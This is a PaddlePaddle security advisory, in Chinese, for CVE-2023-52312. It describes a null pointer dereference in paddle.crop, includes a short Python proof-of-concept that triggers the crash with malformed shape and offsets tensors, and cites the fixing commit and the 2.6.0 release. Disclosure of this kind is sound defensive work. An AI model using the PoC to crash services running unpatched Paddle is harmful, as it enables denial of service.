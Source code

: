 ## PDSA-2023-021: Null pointer dereference in paddle.crop

### CVE编号

CVE-2023-52312

### 影响

输入张量的维度异常时，`paddle.crop`会引发空指针解引用，PoC代码如下：

```python
import paddle
import numpy as np

x = paddle.to_tensor(np.random.uniform(0, 10, [2, 2]).astype(np.int32))
shape = paddle.to_tensor([-1, 0], dtype='int32')
offsets = paddle.to_tensor([], dtype='int32')

out = paddle.crop(x, shape, offsets)
```

### 补丁

我们在commit [c074de6911944d5d30d28cc7ce2c7099f1c87bce](https://github.com/PaddlePaddle/Paddle/pull/59967/commits/c074de6911944d5d30d28cc7ce2c7099f1c87bce)中对此问题进行了补丁。
修复将包含在飞桨2.6.0版本当中。

### 更多信息

请参考我们的[安全指南](../../SECURITY_cn.md)以获得更多关于安全的信息，以及如何与我们联系问题。

### 贡献者

此漏洞由 Peng Zhou (zpbrent) from Shanghai University 提交。
